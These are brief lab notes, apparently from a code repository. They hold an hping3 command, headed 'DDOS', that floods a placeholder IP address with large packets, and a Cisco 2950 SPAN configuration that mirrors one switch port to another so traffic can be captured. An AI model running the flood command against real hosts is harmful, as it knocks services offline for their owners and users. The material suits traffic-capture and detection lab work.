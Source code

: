 ### DDOS:
sudo hping3 xxx.xxx.x.xxx --flood -d 50000

### Collect Data:
## SPAN of Cisco 2950:

C2950#configure terminal

C2950(config)#

C2950(config)#monitor session 1 source interface fastethernet 0/2

!--- This configures interface Fast Ethernet 0/2 as source port.

C2950(config)#monitor session 1 destination interface fastethernet 0/3

!--- This configures interface Fast Ethernet 0/3 as destination port.

C2950(config)# 

C2950#show monitor session 1

Session 1---------

Source Ports:

    RX Only:       None
    
        TX Only:       None
        
        Both:          Fa0/2
        
Destination Ports: Fa0/3
